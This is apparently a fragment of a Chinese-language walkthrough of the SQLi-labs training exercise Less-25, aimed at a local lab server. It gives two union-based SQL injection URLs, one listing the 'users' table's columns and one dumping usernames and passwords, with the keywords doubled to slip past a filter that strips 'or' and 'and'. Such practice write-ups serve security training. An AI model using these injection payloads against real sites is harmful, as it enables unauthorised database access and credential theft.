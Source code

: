 <img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230607142247220.png" alt="image-20230607142247220" style="zoom: 33%;" />

#### 爆字段

```
http://192.168.231.129:9001/Less-25/?id=0' union select 1,group_concat(column_name),3 from infoorrmation_schema.columns where table_schema=database() aandnd table_name='users'%23
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230607142429038.png" alt="image-20230607142429038" style="zoom: 33%;" />

#### 拖库

```
http://192.168.231.129:9001/Less-25/?id=0' union select 1,group_concat(username,':',passwoorrd),3 from users%23
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230607142535109.png" alt="image-20230607142535109" style="zoom: 33%;" />
